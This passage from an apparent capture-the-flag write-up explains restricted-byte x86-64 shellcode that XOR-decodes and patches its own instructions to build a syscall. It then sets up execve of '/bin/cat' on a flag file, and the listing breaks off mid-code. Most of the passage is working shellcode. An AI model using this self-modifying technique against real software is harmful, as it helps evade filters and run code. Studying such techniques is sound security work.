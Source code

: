 Lastly when the `add cl, 0x6a` runs, now `rcx=page_base+0xe9`.

```assembly
    # Decode "encoded_add_opcodes1" to generate our own 'add' instruction
    xor [rax+0x5f], rbx
    xor [rax+0x63], bl

encoded_add_opcodes1:
    # Will be "add al, 0x100"
    .byte 0x66
    .byte 0x5d # Will be 0x05
    .byte 0x58 # Will be 0x00
    .byte 0x59 # Will be 0x01

    # Will be "add [rcx+0x66], bx"
    # (This will decode "encoded_add_opcode2")
    .byte 0x3e # Will be 0x66 
    .byte 0x59 # Will be 0x01 
    .byte 0x59
    .byte 0x66

encoded_add_opcode2:
    # Will be "add cl, 0x6a"
    .byte 0x28 # Will be 0xd1
    .byte 0x79 # Will be 0x80    
    .byte 0x6a
```

Now we got the exact result we wanted: `rax = page_base + 0x7f + 0x100 == page_base+0x17f` - which can be used to calculate pointers in the `0x110`-`0x118` with `xor`; and `rcx = page_base + 0xe9` - which can be used to patch instructions/values in the range `0x110`-`0x118` with instructions like `xor [rcx + 0x20], bx`.



### Putting it all together

After all those shenanigans, now we can simply:

1. Patch the instruction ahead in order to create a `syscall` instruction.
2. Null-terminate the strings at the end of the shellcode (`"flag"` string) using `xor`.
3. Set-up everything for the `execve` syscall (syscall number, arguments, etc.).
4. The `syscall` instruction runs and we get our flag 🥳

This is how it looks in the final shellcode:

```assembly
    # Push, for rax later to be 0
    push rdi

    # xor the things to be xored:
    # xor the syscall
    xor [rcx + 0x20], bx # 0x109

    # xor the end of flags string
    xor [rcx + 0x26], bl # 0x10f

    # Move "/bin/cat" string to 1st argument (rdi)
    xor al, 0x6f
    push rax       # rax is 0x110
    pop rdi

    # Create array of pointers (will be NULL-terminated because of mmap)
    # 1) First move "/bin/cat" (which is in rdi) to the first location
    xor [rcx+0x60], rdi
    
    # 2) Now fetch "flag" and put in the second location
```